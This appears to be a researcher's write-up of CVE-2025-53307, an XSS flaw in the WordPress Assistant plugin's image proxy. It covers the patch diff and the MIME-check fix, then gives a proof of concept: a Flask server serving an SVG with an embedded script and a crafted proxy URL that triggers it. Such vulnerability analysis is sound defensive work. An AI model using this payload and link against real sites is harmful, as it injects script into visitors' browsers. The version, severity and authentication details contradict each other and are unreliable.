



<!--more-->

The vulnerability exists in the **Assistant** plugin for WordPress prior to version **3.6.2**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Assistant**: v1.5.2 (vulnerable) and v1.5.3 (patched)
* **Diff tool**: **meld** or any tool capable of comparing two versions

## Analysis

The application displays user-provided image content directly via a URL **without validating or fully checking the MIME type**. This allows an attacker to supply a file disguised as an image, which when processed by the browser, executes malicious code → resulting in an XSS vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.



In this case, there are significant differences between the two versions. For easier tracking, the [change log](https://wordpress.org/plugins/assistant/#developers) identifies where the XSS patch was applied:

```
Changelog
1.5.3 (2025-09-08)

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 The vulnerability is located in **backend/src/Hooks/ImageProxy.php**. Observing the differences between the two versions:



The changes occur in the `render_image` function, which:

* Accepts a URL parameter from the query string `($_GET['url'])`.
* Sends a request from the server to that URL to fetch the content.
* Prevents **SSRF** using `wp_safe_remote_get`.
* If the content has a **Content-Type** header starting with `image/`, then:

  * Sends the same **Content-Type** header back to the client.
  * Echoes the file content to the browser.
* The browser displays the image **not directly from the original source but through the WordPress server**.

> SVG files also have a **Content-Type** starting with `image/` and can contain embedded JavaScript → XSS can occur.

The patch added an additional check to verify the **actual MIME type** of the file to prevent XSS via SVG or maliciously disguised files.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) uses internal image processing (based on the binary data of the file) to determine the actual MIME type.

If the result is not a valid image → returns **false**.

### How it works

In the `__construct` of the `ImageProxy` class, the `render_image()` method is called via the `'init'` action hook. The `'init'` hook runs early in WordPress loading, after core objects are initialized but before output is sent to the browser.

`render_image` is called only if the current user has permission to edit other users' posts and the `$_GET['fl_asst_image_proxy']` parameter exists.

👉 Accessing `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` triggers `render_image` and returns the image content to the browser.

## Exploit

### Detect XSS

Create a simple [web page](https://github.com/w41bu1/w41test) returning an SVG containing an XSS payload:

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Send a request with the **url parameter** pointing to `https://yoursite/svg`:

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Successful for `Unauthenticated` because as long as the user has permission, accessing the URL triggers XSS in the victim’s browser. The attacker does not need to log in.



## Conclusion

The **CVE-2025-53307** vulnerability in the WordPress Assistant plugin (**<= v1.5.2**) allows XSS via `render_image()` because it does not validate the actual file **MIME type**. Version **v1.5.3** patched this by verifying the file content before returning it to the browser.

**Key takeaways**:

* Do not trust the **Content-Type header** from **HTTP responses**.
* Always validate the **actual MIME type** of the file.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)
